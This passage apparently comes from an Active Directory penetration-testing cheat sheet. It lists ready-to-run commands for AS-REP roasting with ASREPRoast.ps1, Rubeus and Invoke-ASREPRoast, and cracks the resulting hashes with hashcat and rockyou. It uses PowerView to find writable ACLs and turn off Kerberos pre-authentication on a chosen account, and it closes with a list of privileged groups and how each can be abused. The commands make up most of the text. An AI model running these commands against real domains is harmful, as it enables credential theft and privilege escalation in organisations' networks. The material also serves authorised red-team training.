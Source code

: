 ```
./ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
```

#### Request encrypted AS-REP
```
. ./ASREPRoast.ps1
Get-ASREPHash -Username <username> -Verbose
```

#### Request encrypted AS-REP with rubeus
```
.\rubeus.exe asreproast /format:hashcat
.\rubeus.exe asreproast /format:hashcat /user:<USER>
```

#### Enumerate all users with kerberos preauth disabled and request a hash
```
Invoke-ASREPRoast -Verbose
Invoke-ASREPRoast -Verbose | fl
```

#### Crack the hash with hashcat
```Edit the hash by inserting '23' after the $krb5asrep$, so $krb5asrep$23$.......```
```
Hashcat -a 0 -m 18200 hash.txt rockyou.txt
```

### Set pre-auth not required
- With enough rights (GenericWrite of GenericAll) it is possible to set pre-auth not required.

#### Enumerate permissions
```
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN>
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN> | Select-Object ObjectDN, ActiveDirectoryRights, IdentityreferenceName
```

#### Set preauth not required
```
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

## High Privileged Groups
- Default Administrators, Domain Admins and Enterprise Admins "super" groups.
- Server Operators, Members are allowed to log onto DCs locally and can modify services, access SMB shares, and backup files.
- Backup Operators, 	Members are allowed to log onto DCs locally and should be considered Domain Admins. They can make shadow copies of the SAM/NTDS database, read the registry remotely, and access the file system on the DC via SMB. This group is sometimes added to the local Backup Operators group on non-DCs.
- Print Operators,	Members are allowed to logon to DCs locally and "trick" Windows into loading a malicious driver.
- Hyper-V Administrators, If there are virtual DCs, any virtualization admins, such as members of Hyper-V Administrators, should be considered Domain Admins.
- Account Operators,	Members can modify non-protected accounts and groups in the domain.
- Remote Desktop Users,	Members are not given any useful permissions by default but are often granted additional rights such as Allow Login Through Remote Desktop Services and can move laterally using the RDP protocol.
- Remote Management Users,	Members are allowed to logon to DCs with PSRemoting (This group is sometimes added to the local remote management group on non-DCs).
- Group Policy Creator Owners,	Members can create new GPOs but would need to be delegated additional permissions to link GPOs to a container such as a domain or OU.
```